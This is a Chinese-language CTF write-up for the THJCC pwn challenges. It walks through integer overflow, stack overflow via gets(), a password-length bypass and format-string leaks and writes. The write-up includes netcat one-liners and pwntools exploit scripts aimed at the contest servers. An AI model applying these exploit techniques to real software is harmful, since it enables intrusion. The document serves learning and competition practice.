 ```yaml
---
title: THJCC CTF pwn writeup
published: 2025-04-22 02:45:00
description: ''
image: ''
tags: ['pwn']
category: 'CTF'
draft: false 
lang: ''
---
```


> 比賽時 pwn 的題目並沒有寫完全部（5/7），若後續有解出來會再補上。

## Flag Shoping

It's the FLAG SHOP!!! Let's go buy some flags!!!

> Author: Grissia

`nc chal.ctf.scint.org 10101`

Files：[source code](https://github.com/yuto0226/notes/blob/main/src/content/posts/thjcc-ctf-pwn/flag_shopping.c)

### Solution

這一題是典型的 interger overflow 題，使用者可以選擇購買商品、輸入購買數量 `(long long)num`，而用來儲存持有金錢的 `money` 又是 `int` 型別。第 43 行在扣錢時，又將 `num` 轉型成 `int`，所以我們可以考慮以下攻擊流程：

- 輸入數量一個比 `INT_MAX` 大的數，讓第 43 行轉型別時會變成負數。在減法時就會**負負得正**。
- 重複以上動作直到持有金錢累計大於購買 flag 的金額 123456789。

所以我們的目標是讓 `money` 比原先多 123456789 - 100 = 123456689。

如果輸入的數字是 `INT_MAX` + 1 的話，型別轉換後會變成 `INT_MIN`，乘上 25 後就會再次 overflow 讓 `money` 變成負數。

```
> 1
> 2147483648
> 3
> 1
You only have -2147483548, But it cost 123456789 * 1 = 123456789
...
```

會導致這樣是因為原本 money 裡面有 100 元，所以就只要把輸入加上 100 / 25 = 4 後，應該就可以扣掉多餘的錢避免 overflow。但經測試之後要再加上 1 才夠。

## Money Overflow

I'm so poor that I can't afford to eat. I really wish I had a rich little sister to save me QQ

> Author: Dr.dog

`nc chal.ctf.scint.org 10001`

Files：[source code](https://github.com/yuto0226/notes/blob/main/src/content/posts/thjcc-ctf-pwn/money_overflow.c)

### Solution

這題就是簡單的 stack overflow 題，使用者的資訊會被存在一個 `struct` 裡面：

```c
struct {
  int id;
  char name[20];
  unsigned short money;
} customer;
```

而程式一開始就用不安全的函式讀，取使用者的輸入到 `customer.name`。這就給了我們利用的機會，只要填滿 `name` 後，就可以覆蓋到 `money` 的值。

```c
customer.id = 1;
customer.money = 100;
printf("Enter your name: ");
gets(customer.name);
```

而題目要求要 65535 才能拿到 shell，因此只要蓋 `\xff\xff` 就可以了。

```zsh
echo -e 'AAAAAAAAAAAAAAAAAAAA\xff\xff\n5\ncat flag.txt' | nc chal.ctf.scint.org 10001
```

## Insecure Shell

SSH is outdated<br>
ISSH is a more convenient alternative

> Author: Dr.dog

`nc chal.ctf.scint.org 10004`

Files：[source code](https://github.com/yuto0226/notes/blob/main/src/content/posts/thjcc-ctf-pwn/insecure_shell.c)

### Solution

這題會從 `/dev/urandom` 取出一段 15 bytes 的密碼，使用者必須輸入正確的密碼才能拿到 shell。但仔細閱讀程式碼，可以發現 `check_password()` 傳入的長度是使用者可控的，而不是密碼長度 15。

```c
check_password(password, buf, strlen(buf))
```

因此可以直接輸入一個長度 0 的字串繞過檢查，並拿到 shell。

```zsh
echo -e '\x00\ncat ../flag.txt' | nc chal.ctf.scint.org 10004
```

## Once

Are you sure you want to bet your life on winning this game in one chance?

![hyakusetsufuto](https://i.pinimg.com/736x/a4/5f/02/a45f02340a7bceef28ad678c5cd6507f.jpg)

> Author: Dr.dog

`nc chal.ctf.scint.org 10002`

Files：[source code](https://github.com/yuto0226/notes/blob/main/src/content/posts/thjcc-ctf-pwn/once.c)

### Solution

這一題是 format string 題，可以在程式碼中看到 `printf(buf)` 這種標誌型的特徵。程式一開始會隨機生成 `secret` 的內容，並在使用者輸入相同的字串時才能拿到 shell。既然是 format string，我們就可以嘗試 leak 出 `secret` 的內容。

```py
io.sendline(b"%8$p.%9$p")
    
io.recvuntil(b"Your guess: ")
high = io.recvuntil(b".").strip(b".")
high = int(high, 16)
low = io.recvuntil(b"\n").strip(b"\n")
low = int(low, 16)

secret =  p64(high) + p64(low)
info("secret: " + secret.decode());

io.sendline(b"n")

io.sendline(secret.strip(b"\x00"))
io.sendline(b"y")

io.sendline(b"cat ../flag.txt")
sleep(0.5)

io.recvuntil(b"answer!\n")
io.interactive()
io.close()
```

## Little Parrot

I'm a little parrot, and I'll repeat whatever you said!

> Author: Grissia

`nc chal.ctf.scint.org 10103`

Files：[source code](https://github.com/yuto0226/notes/blob/main/src/content/posts/thjcc-ctf-pwn/little_parrot.c)

### Solution

這一題也可以看到 format string 的漏洞，問題在於要怎麼跳到 `win()`。我的作法是 leak 出 stack 和 .text 段的 address，計算 offset 後用 format string 再寫入 return address 的指標。

```py
io.sendline(b"%40$p.%41$p")  # prev frame addr
io.recvuntil(b"You said > ")

prev_rbp = io.recvuntil(b".").strip(b".")
info("prev_rbp: " + prev_rbp.decode())

ret_addr = io.recvline().strip()
info("ret_addr: " + ret_addr.decode())

ptr_ret_addr = int(prev_rbp, 16) - frame_offset
info("ptr_ret_addr: " + hex(ptr_ret_addr))

win_addr = int(ret_addr, 16) - win_offset
info("win_addr: " + hex(win_addr))

info(hex(ptr_ret_addr + 4) + " -> win_addr: " + hex(win_addr))

payload = fmtstr_payload(
    offset=6,
    writes={
        ptr_ret_addr: win_addr,
    },
    write_size='short',
)

info(b"payload: " + payload)

io.sendline(payload)

io.sendline(b"exit")
io.interactive()
io.close()
```

## Bank Clerk

Do you know what the "Principle of Least Privilege" is? But what if I can control the system even through I'm just a bank clerk?

> Author: Dr.dog

`nc chal.ctf.scint.org 10003`

## Painter

I created a stack structure to store my artwork:D

> Author: Dr.dog

`nc chal.ctf.scint.org 10006`
